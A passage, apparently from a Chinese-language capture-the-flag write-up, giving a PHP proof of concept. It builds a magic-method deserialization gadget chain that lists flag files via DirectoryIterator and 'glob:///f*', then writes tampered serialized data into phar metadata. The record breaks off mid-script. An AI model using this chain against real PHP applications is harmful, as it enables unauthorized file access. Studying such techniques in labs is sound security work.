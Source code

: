 			  // 第四步
			  $tree1 -> name -> xxx -> p = new tree();
			  $tree1 -> name -> xxx -> p -> act = "DirectoryIterator";
			  ```
- ## 完整POC
	- test.php
		- ```php
		  <?php
		  
		  class air{
		  public $p;
		  
		  public function __set($p, $value) {
		      $p = $this->p->act;
		      echo new $p($value);
		  }
		  }
		  
		  class tree{
		  public $name;
		  public $act;
		  
		  public function __destruct() {
		      return $this->name();
		  }
		  public function __call($name, $arg){
		      $arg[1] =$this->name->$name;
		  
		  }
		  } 
		  
		  
		  class apple {
		  public $xxx;
		  public $flag;
		  public function __get($flag)
		  {
		      $this->xxx->$flag = $this->flag;
		  }
		  }
		  
		  $tree1 = new tree();
		  $tree1 -> name = new apple();
		  $tree1 -> name -> flag = "glob:///f*";
		  $tree1 -> name -> xxx = new air();
		  $tree1 -> name -> xxx -> p = new tree();
		  $tree1 -> name -> xxx -> p -> act = "DirectoryIterator";
		  
		  $o = [$tree1, 1];
		  
		  mkdir(".phar");
		  
		  // echo str_replace(";i:1;", ";-i:1;", serialize($o));
		  
		  file_put_contents(".phar/.metadata", str_replace(";i:1;", ";-i:1;", serialize($o)));
		  file_put_contents(".phar/test.txt", "123test.txt");
		  